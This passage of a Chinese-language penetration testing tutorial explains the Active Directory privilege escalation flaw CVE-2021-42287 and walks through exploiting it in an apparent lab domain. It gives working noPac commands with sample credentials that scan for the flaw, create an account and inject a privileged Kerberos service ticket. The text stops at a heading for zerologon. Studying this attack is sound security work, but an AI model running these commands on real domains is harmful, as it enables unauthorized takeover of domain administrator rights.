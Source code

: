 ## 0x03 CVE-2021-42287 （推荐使用这个！！！）

### 1）漏洞描述

Windows域服务权限提升漏洞（CVE-2021-42287）是由于Active Directory 域服务没有进行适当的安全限制，导致可绕过安全限制进行权限提升。攻击者可利用该漏洞造成将域内的普通用户权限提升到域管理员权限等危害。

 CVE-2021-42287 解决影响 Kerberos 特权属性证书（PAC）并允许潜在攻击者模拟域控制器的安全绕过漏洞。 为了利用此漏洞，受损域帐户可能会导致密钥分发中心（KDC）创建特权级别高于受损帐户的服务票证。 它通过阻止 KDC 识别更高特权服务票证用于的帐户来实现此目的。

CVE-2021-42287 中改进的身份验证过程将原始请求者的新信息添加到 Kerberos Ticket-Granting Tickets (TGT)。 稍后，为帐户生成 Kerberos 服务票证时，新的身份验证过程将验证请求 TGT 的帐户是否与服务票证中引用的帐户相同。

### 2）利用条件与准备

一个域内普通账号与密码

事先修改好host文件，使得能够做到绑定域名与ip地址。

<br/>

### 3）利用过程

1、扫描探针：

```powershell
noPac scan -domain god.org -user webadmin -pass admin!@#45
```

![截图](e3a0ecdc0aa9cb44741f1637bf71ac72.png)

返回如图内容，说明存在漏洞！

2、利用漏洞，添加并生成票据：(创建一个更高权限的账户）

```powershell
noPac -domain god.org -user webadmin -pass admin!@#45 /dc owa2010cn-god.god.org /mAccount yuan /mPassword yuanyuan /service cifs /ptt
```

可以看到下图中，利用漏洞添加了一个用户以及生成了一个票据！！！

![截图](09526acbfc902c0667a5863238e28175.png)

然后，让我们查看一下票据信息：

![截图](b5318291057fe306902bc02119c28901.png)

确实是多了一个管理员权限的票据！！

3、连接：

![截图](b3a0e73b55ab419d26eabf1ab46ad96e.png)

完成！！！

## 0x04 CVE-2020-1472  zerologon漏洞

